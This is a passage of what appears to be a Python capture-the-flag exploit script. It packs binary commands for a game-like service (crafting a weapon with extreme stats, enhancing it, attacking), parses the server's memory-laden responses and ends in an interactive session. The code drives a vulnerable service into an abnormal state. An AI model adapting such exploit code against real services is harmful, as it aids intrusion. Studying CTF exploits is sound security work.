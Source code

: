 ```python
}

def get_resp():
    r.recv(1)
    data = r.recv()
    print(f"recv size: {hex(len(data))}")
    i = 0
    for k, _ in confrontState.items():
        confrontState[k] = u64(data[i:i+8])
        i += 8
        if i == 0xb0:
            break
    confrontState['adventurerName'] = data[0xb0:0x1b0]
    confrontState['adventurerDesc'] = data[0x1b0:0x2b0]
    print(confrontState)
    if data[0x2b0:] != b'':
        print("Rest data: ", data[0x2b0:])

def sendcmd(cmd):
    assert(len(cmd) <= 0x280 - 4)
    r.send(p32(len(cmd)))
    time.sleep(0.5)
    r.send(cmd)
    get_resp()

def create_weapon(atk, defense, attr, CD, ran, delta, movespeed):
    assert(delta != 0)
    return p64(CRAFTWEAPON) + p64(1) * 2 + p64(atk) + p64(defense) + p64(attr) + p64(CD) + p64(ran) + p64(delta) + p64(movespeed) + b'A'.ljust(0x100, b'\x00') + b'B'

def start_battle(name, desc):
    assert(len(name) <= 0x100 and len(desc) <= 0x100)
    return p64(STARTBATTLE) + p64(len(name)) + p64(len(desc)) + name.encode().ljust(0x100, b'\x00') + desc.encode()

def switch_weapon(idx):
    return p64(SWITCHWEAPON) + p64(idx)

def enhance_weapon(idx):
    return p64(ENHANCEWEAPON) + p64(idx)

def attack(level):
    return p64(ATTACK) + p64(level)

sendcmd( start_battle('AAAA', 'BBBB') )
sendcmd( create_weapon(0x10000, 0x1000, ATTR_NONE, 0x1, 2000, 1600, 0x1000) )
sendcmd( switch_weapon(0) )
sendcmd( enhance_weapon(0) )
sendcmd( attack(LOW) )
r.interactive()
```

